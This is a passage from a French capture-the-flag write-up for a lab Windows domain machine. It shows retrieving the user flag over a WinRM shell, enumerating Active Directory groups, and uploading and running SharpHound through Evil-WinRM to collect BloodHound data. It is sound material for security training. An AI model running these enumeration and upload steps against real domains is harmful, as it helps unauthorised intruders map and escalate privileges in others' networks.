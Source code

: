 <div class="bg-green-100 dark:bg-green-900/20 border-l-4 border-green-500 p-4 my-4 rounded-r-lg">
    <p class="text-green-800 dark:text-green-200 font-bold text-lg">
        <i class="fas fa-terminal mr-2 text-green-500"></i>
        Shell obtenu en tant que support@support.htb !
    </p>
</div>

Flag utilisateur :

```powershell
type C:\Users\Support\Desktop\user.txt
```


## 🧭 Phase 7 — Énumération du domaine

Lister le domaine :

```powershell
Get-ADDomain
```

Groupes de l'utilisateur :

```powershell
whoami /groups
```

Résultat notable :

```
Shared Support Accounts (groupe non standard)
```

<div class="bg-amber-100 dark:bg-amber-900/20 border-l-4 border-amber-500 p-4 my-4 rounded-r-lg">
    <p class="text-amber-800 dark:text-amber-200">
        <i class="fas fa-search mr-2 text-amber-500"></i>
        <strong>Hypothèse :</strong> Ce groupe personnalisé détient potentiellement des privilèges élevés sur le domaine.
    </p>
</div>


## 🕸️ Phase 8 — Analyse BloodHound

### Démarrage de Neo4j et BloodHound

```bash
sudo neo4j start
./BloodHound-linux-x64/BloodHound
```

### Collecte de données

Dans Evil-WinRM :

```powershell
cd C:\Windows\Temp
upload SharpHound.exe
.\SharpHound.exe
download *.zip
```
